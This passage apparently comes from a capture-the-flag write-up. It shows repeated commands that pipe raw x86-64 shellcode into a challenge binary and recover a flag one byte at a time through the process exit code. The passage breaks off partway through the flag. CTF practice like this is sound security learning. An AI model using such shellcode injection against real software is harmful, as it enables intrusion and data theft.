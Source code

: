 We find out that we are able to leak 1 byte from the flag by using the exit code of the application, we can then read the exit code using echo. We repeat this process, each time incrementing the address by 1, until we meet a null byte.

```bash
$ printf "\x66\x48\x8b\x3c\x25\xe0\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
65
$ printf "\x66\x48\x8b\x3c\x25\xe1\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
67
$ printf "\x66\x48\x8b\x3c\x25\xe2\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
83
$ printf "\x66\x48\x8b\x3c\x25\xe3\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xe4\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
73
$ printf "\x66\x48\x8b\x3c\x25\xe5\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
88
$ printf "\x66\x48\x8b\x3c\x25\xe6\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
73
$ printf "\x66\x48\x8b\x3c\x25\xe7\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
65
$ printf "\x66\x48\x8b\x3c\x25\xe8\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xe9\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
67
$ printf "\x66\x48\x8b\x3c\x25\xea\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
84
$ printf "\x66\x48\x8b\x3c\x25\xeb\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
70
$ printf "\x66\x48\x8b\x3c\x25\xec\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
123
$ printf "\x66\x48\x8b\x3c\x25\xed\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
97
$ printf "\x66\x48\x8b\x3c\x25\xee\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
110
$ printf "\x66\x48\x8b\x3c\x25\xef\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
121
$ printf "\x66\x48\x8b\x3c\x25\xf0\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xf1\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
108
$ printf "\x66\x48\x8b\x3c\x25\xf2\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
101
$ printf "\x66\x48\x8b\x3c\x25\xf3\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
```
